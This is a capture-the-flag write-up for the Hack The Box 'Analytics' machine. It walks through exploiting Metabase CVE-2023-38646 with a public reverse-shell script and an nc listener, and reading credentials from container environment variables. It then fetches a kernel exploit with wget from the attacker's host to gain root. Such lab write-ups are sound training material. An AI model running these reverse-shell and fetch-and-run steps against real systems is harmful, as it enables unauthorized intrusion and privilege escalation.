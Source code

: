 # HTB - Analytics

#### Ip: 10.10.11.233
#### Name: Analytics
#### Rating: Easy

----------------------------------------------------------------------

Analytics.png

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.11.233 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-08 11:46 CST
Nmap scan report for 10.10.11.233
Host is up (0.082s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.83 seconds
```

Lets add analytical.htb to `/etc/hosts`

Checking out the site on port 80 we find a largely static page:

analytics_site.png

Interestingly though, the login page redirects to data.analytical.htb, so lets also add that to `/etc/hosts`

Navigating to this page presents me with a login to metabase:

analytics_metabase_login.php

Searching for exploits I find: https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646 which details vulnerabilities we can chain together to achieve RCE on the target.

First, we can navigate to http://data.analytical.htb/api/session/properties to obtain the setup-token we'll need:

analytics_setup_token.png

Next, I searched for public exploits for the vulnerability and found: https://github.com/securezeron/CVE-2023-38646/blob/main/CVE-2023-38646-Reverse-Shell.py

I can run the script with will fetch the setup-token, and spawn a reverse shell in my nc listener:

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ python CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb/api/session/properties --lhost 10.10.14.16 --lport 443
```

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.233] 40070
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
9431f8dc1d11:/$ whoami
whoami
metabase
```
Not seeing much on the target, I run linpeas and discover I've landed in a Docker container:

```
╔══════════╣ Container details
═╣ Is this a container? ........... docker
```

Knowing this lets run the `env` command to see if we can extract more information:

```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Nice, here is a new user and their password. lets use these to SSH in as metalytics:

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ ssh metalytics@10.10.11.233
```

From here I can grab the user.txt flag:

analytics_user.png

### Privilege Escalation

Looking around and not seeing much, I went back to the basics and ran `uname -a` to check out the kernel version:

```
metalytics@analytics:/tmp$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

Searching for exploits I find: https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629


I can copy the exploit to the target and run it:
```
metalytics@analytics:/tmp$ wget 10.10.14.16/ubuntu_6.2.0_exploit.sh
--2024-03-08 18:59:42--  http://10.10.14.16/ubuntu_6.2.0_exploit.sh
Connecting to 10.10.14.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 558 [text/x-sh]
Saving to: ‘ubuntu_6.2.0_exploit.sh’

ubuntu_6.2.0_exploit.sh         100%[====================================================>]     558  --.-KB/s    in 0.005s  

2024-03-08 18:59:42 (117 KB/s) - ‘ubuntu_6.2.0_exploit.sh’ saved [558/558]

metalytics@analytics:/tmp$ chmod +x ubuntu_6.2.0_exploit.sh 
metalytics@analytics:/tmp$ ./ubuntu_6.2.0_exploit.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp# whoami
root
```

I can then grab the final flag:

analytics_root.png

Thanks for following along!

-Ryan

-----------------------------------------------
